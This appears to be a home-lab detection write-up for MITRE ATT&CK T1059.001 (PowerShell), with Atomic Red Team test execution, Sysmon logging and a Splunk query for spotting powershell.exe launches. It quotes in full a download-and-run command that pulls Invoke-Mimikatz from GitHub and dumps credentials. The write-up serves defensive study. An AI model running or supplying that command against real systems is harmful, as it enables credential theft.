



---
tags:
  - Technique/T1059
  - ATTACK/Execution
  - Surface/Process
  - Telemetry/Sysmon
  - Telemetry/PowerShell
---
# T1059.001 — Command and Scripting Interpreter: PowerShell

---

# 1. Technique Overview

**Technique:** Command and Scripting Interpreter: PowerShell
**MITRE ATT&CK ID:** T1059.001
**Tactic:** Execution

**Threat Summary:**  
Adversaries use PowerShell for malicious tasks like credential dumping, remote execution, and system reconnaissance. Its ability to run processes locally or remotely, bypass detection, and execute payloads from the internet makes it a powerful attack tool. Offensive tools like PowerSploit leverage PowerShell for exploitation, and mitigation includes restricting execution policies and monitoring command-line usage.

---

# 2. Execution Summary

**Execution Method:** PowerShell 7.2.4 
**Attacker Host:** Kali Linux VM
**Target Host:** Windows 10 Enterprise VM1
**Admin Required:** Yes 

**Test Command Executed:**
```
Invoke-AtomicTest T1059.001 -Session $WIN10VM1 -TestNumbers 1
```

**Actions Performed:**  
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString(https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1); Invoke-Mimikatz -DumpCreds"
```
- This command downloads and executes the `Invoke-Mimikatz.ps1` script, which performs credential dumping via Mimikatz.



**Expected Artifacts:**  
- **Sysmon EventCode 1:** Process creation event triggered by the execution of PowerShell, which can be captured in Sysmon logs.

---

# 3. Telemetry Observed

## Sysmon

Check the Sysmon logs for EventCode 1 under the following path in the Event Viewer:
- _Applications and Services Logs -> Microsoft -> Windows -> Sysmon -> Operational_



---

# 4. Detection Logic

### Queries Used During Analysis

```
index=sysmon EventCode=1 Image="*\\powershell.exe"
| table -_time, host, CommandLine, ParentImage
```
This query searches for process creation events involving `powershell.exe`, providing useful context such as the command line arguments and parent image.



---
# 5. Lessons Learned

 - **Basic Splunk Query Language Structure:** Gaining familiarity with the structure and syntax of SPL (Splunk Query Language) was crucial for building detection queries.
 - **Useful Fields for Filtering:** Key fields like `Image` and `CommandLine`helped in filtering and identifying potentially malicious PowerShell executions.
